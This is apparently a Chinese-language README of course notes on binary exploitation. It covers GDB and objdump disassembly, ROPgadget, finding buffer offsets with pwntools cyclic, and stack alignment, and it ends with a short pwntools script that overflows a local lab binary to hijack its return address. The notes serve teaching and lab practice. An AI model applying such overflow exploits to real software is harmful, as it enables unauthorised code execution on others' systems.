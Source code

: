 # Exploit
## Disassembly Tool - GDB
- 設定成 intel 版本
```
set disassembly-flavor intel

```
- 查看組語 / 反編譯
```
lay <asm/src>
```
- 常用參數介紹
    - `b <func>` 設定 Break point
    - `r` 開始執行
    - `ni` 執行下一個指令，如果是 func 直接執行完成
    - `si` 執行下一個指令，逐行執行 func 指令
    - `continue` 執行至斷點
    - `x/[Size Modifiers][Format]` 顯示記憶體資料
    - Size
        - b(byte)/1 byte (8-bit)
        - h(Halfword)/2 byte (16-bit)
        - w(Word)/4 byte (32-bit)
        - g(Giant Word)/8 byte(64-bit)
    - Format
        - o octal
        - x hexadecimal
        - b binary
        - s string
        - i 組合語言


## Disassembly Tool - objdump
- 看組語
```
objdump -d <binary>
```

## Find ROP
- **ROPgadget**
```
sudo -H python3 -m pip install ROPgadget
```
```
ROPgadget --binary <$binary> (--only <$command>)
```
## Finding Offset
- 找出 padding 長度
    - 通靈
        - 這部份我可能沒有
    - GDB
    - cyclic in pwntools

- 利用 cyclic 去產生連續字串
- ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/74ba82a5-1eb6-4da1-ab45-98afffa8ff10)
- 利用 gdb 去找長度
- ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/2882bab9-49b7-46af-8239-068e8003e749)
- 剛好 6c 就在 l
```
cyclic_find('laaa')
```
- return 位置就在 buf 後面 約 44 bytes

### Stack Alignment
- 在尋找 Return Address 的位置時可能會發現一些奇怪的地方
- 明明 Buf 大小就沒有設定那麼大，padding 為什麼那麼大
- 針對區域變數如果只有 1 byte 或不到 4 bytes 的資料對齊調整 (32 位元)

## Exploit
- objdump 查看函數位址
    - ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/9072e5a1-64f7-4bc9-b465-acb4904a4210)
    - ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/a95bb480-cf34-40c2-b4a2-8e2ce461e87d)

- 寫 code 攻擊
```python=
from pwn import *

r = process("./pwn")

padding = (b"a"*44)
add = p32(0x080491c6)
r.sendline(padding+add)
